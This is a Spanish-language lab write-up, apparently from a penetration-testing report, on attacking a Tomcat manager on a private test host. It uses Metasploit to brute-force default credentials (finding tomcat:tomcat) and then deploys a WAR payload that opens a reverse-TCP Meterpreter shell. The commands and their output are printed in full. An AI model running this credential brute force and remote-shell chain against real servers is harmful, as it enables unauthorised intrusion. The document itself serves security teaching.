 \documentclass[a4paper,12pt]{scrartcl}
\begin{document}
No encontramos usuarios de la lista de usuarios por defecto, así que intentamos con el segundo escáner:

\begin{lstlisting}[breaklines]
$ use auxiliary/scanner/http/tomcat_mgr_login
$ set RHOSTS 192.168.59.100
$ set RPORT 8180
$ run
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: admin:manager (Incorrect: )
[...]
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: tomcat:root (Incorrect: )
[+] 192.168.59.100:8180 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: both:admin (Incorrect: )
[...]
[-] 192.168.59.100:8180 TOMCAT_MGR - LOGIN FAILED: QCC:QLogic66 (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

\vspace{12pt}

Las salidas son muy largas, así que van resumidas. Se puede ver que con el segundo escáner hemos conseguido acceder usando el usuario \textbf{tomcat:tomcat}, que vamos a usar para poder obtener ejecución de código arbitrario posteriormente.

En la búsqueda de Tomcat, en el apartado de exploits podemos ver exploit/multi/http/tomcat\_mgr\_deploy, que tiene un nombre similar al escáner que nos dio un usuario positivo. Si usamos el exploit:

\begin{lstlisting}[breaklines]
$ use exploit/multi/http/tomcat_mgr_deploy
$ set RHOST 192.168.59.100
$ set USERNAME tomcat
$ set PASSWORD tomcat
$ set RPORT 8180
$ run

[*] Started reverse TCP handler on 192.168.59.1:4444 
[*] Attempting to automatically select a target...
[*] Automatically selected target "Linux x86"
[*] Uploading 6071 bytes as wrwe.war ...
[*] Executing /wrwe/QisKxDzvyVOapxx4PwnS4GOLQ.jsp...
[*] Undeploying wrwe ...
[*] Sending stage (46112 bytes) to 192.168.59.100
[*] Meterpreter session 1 opened (192.168.59.1:4444 -> 192.168.59.100:39310) at 2016-05-22 15:59:27 +0200

meterpreter > getuid
Server username: tomcat55
\end{lstlisting}

\noindent Tenemos acceso a un meterpreter\footnote{Meterpreter es una terminal que ofrece acceso remoto a la máquina víctima.} como el usuario tomcat55. A partir de aquí un atacante utilizaría alguna forma de escalar privilegios, para poder acceder como otro usuario (el objetivo final sería acceder como root).
\end{document}
